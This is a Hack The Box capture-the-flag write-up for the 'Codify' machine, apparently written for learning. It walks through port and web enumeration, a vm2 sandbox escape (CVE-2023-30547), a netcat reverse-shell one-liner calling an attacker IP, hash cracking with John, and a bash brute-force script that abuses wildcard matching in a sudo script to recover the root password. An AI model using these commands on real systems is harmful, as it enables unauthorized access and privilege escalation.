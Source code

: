 # Codify Writeup - by Thammanant Thamtaranon  
- Codify is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.239`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan revealed ports 22 (SSH), 80 (HTTP), and 3000 (Node.js) open.  
- We added `codify.htb` to our `/etc/hosts` file for proper hostname resolution.

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://codify.htb`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- The scan revealed standard paths plus an additional `/server-status/` endpoint.  
- Manual inspection revealed a `/limitations` path in the HTML source.  
- We then performed virtual host enumeration using:  
  `ffuf -u http://codify.htb -H "Host: FUZZ.codify.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
- No subdomains were found.  
- The website featured a Node.js code editor with sandboxed execution.  
- Examining page source revealed the server was using `vm2 3.9.16`.  
![Version](Version.png)  

## Exploitation  
- Researching vm2 3.9.16, we found **CVE-2023-30547**, a sandbox escape vulnerability.  
- We tested the vulnerability with a simple `id` command first:  
![POC](POC.png)  
- Successful execution confirmed the vulnerability, so we established a reverse shell with:  
  `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.16.11 4444 > /tmp/f`  
- This provided access as the `svc` user.  
![SVC](SVC.png)  
- Examining `/etc/passwd` revealed a local user `joshua`.  
![Joshua](Joshua.png)  
- We discovered `tickets.db` and identified it as SQLite database:  
  `file tickets.db`  
  `sqlite3 tickets.db`  
- Found hashed credentials for user `joshua`:  
![Credential](Credential.png)  
- Cracked the hash using John:  
  `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`  
![Cracked](Cracked.png)  
- Using these credentials, we SSH'd in as `joshua` and obtained the **user flag**.

## Privilege Escalation  
- Checking sudo privileges revealed `joshua` could run `/opt/scripts/mysql-backup.sh` as root:  
  `sudo -l`  
![SUDO](SUDO.png)  
- The script contained a vulnerable password comparison using pattern matching:  
![Script](Script.png)  
- We wrote and executed a brute-force script to exploit the pattern matching weakness:  
```bash
#!/bin/bash
charset="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_=+[]{}|;:',.<>/?\`~"
password=""
found=0
while [ $found -eq 0 ]; do
    for (( i=0; i<${#charset}; i++ )); do
        char=${charset:$i:1}
        attempt="$password$char*"
        echo "Trying: $attempt"
        echo "$attempt" | sudo /opt/scripts/mysql-backup.sh 2>/dev/null | grep -q "confirmed" && {
            password+=$char
            echo "Found so far: $password"
            break
        }
        if [ $i -eq $((${#charset}-1)) ]; then
            found=1
            echo "Final password: $password"
        fi
    done
done
```
- After obtaining the root password, we escalated privileges:  
  `su root`
![Root](Root.png)
- Obtained the **root flag**

